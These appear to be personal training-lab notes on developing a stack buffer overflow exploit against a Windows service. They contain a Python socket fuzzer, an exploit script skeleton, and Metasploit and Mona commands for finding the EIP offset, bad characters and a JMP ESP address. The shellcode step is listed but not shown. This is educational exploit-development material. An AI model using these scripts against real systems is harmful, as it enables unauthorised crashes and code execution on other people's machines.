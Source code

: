 Notes on Buffer Overflows

### Basic Notes 
Need to run Immunity Debugger as Admin.
Make sure it's running.

## Steps to Conduct a Buffer Overflow
1. Spiking
2. Fuzzing
3. Finding the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Finding the Right Module
7. Generating Shellcode


## Configure Mona
#### Set up working folder
```
!mona config -set workingfolder c:\mona\%p
```
### Python Fuzzer Script

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "Target IP Address"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
  
##### Purpose of the Script
The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. We need to write down how many bytes it sends and add 400 to help with with the exploit.

##### After we know the value from the fuzzer, we can use Metasploit to create a cyclic pattern that we need for our exploit.
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (The number of bytes from the Fuzzer.py script + 400) 
```

##### Purpose of the Script
The exploit script is used to crash the service and help find the EIP Offset.
  ### Python Exploit Script
  
```python 
import socket

ip = "10.10.165.171"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
When we have the payload from the patter_create.rb script, we copy that into the payload variable and run the exploit script again. We then need to use Mona to help finish finding the EIP Offset.
```
!mona findmsp -distance (The number of bytes from the Fuzzer.py script + 400) 
```

###
We need to update the exploit script.
```python
offset = (needs to be the EIP value we just found from the last step)
retn = "BBBB"
```

### Finding Bad Chars

Create Working Directory for Mona
```
!mona config -set workingfolder c:\mona%p
```

The following Mona command will generate a bytearray and exclude the null byte (\x00) by default. * Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).
```
!mona bytearray -b "\x00"
```

##### Purpose of the Script
The following python script can be used to generate a string of bad chars from \x01 to \xff:
### Python Bad Chars Script

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
Once we run this, we use the output and update the exploit.py script payload variable with this output. Then run the exploit.py script again and start removing bad characters. We do this using Mona
```
!mona compare -f C:\mona\oscp\bytearray.bin -a (ESP Address)
```
##### Mona Modules to find vuln path
```
!mona modules
```

##### Using Mona Modules to find ESP JMP
```
!mona find -s "\xff\xe4" -m {vuln path}
```

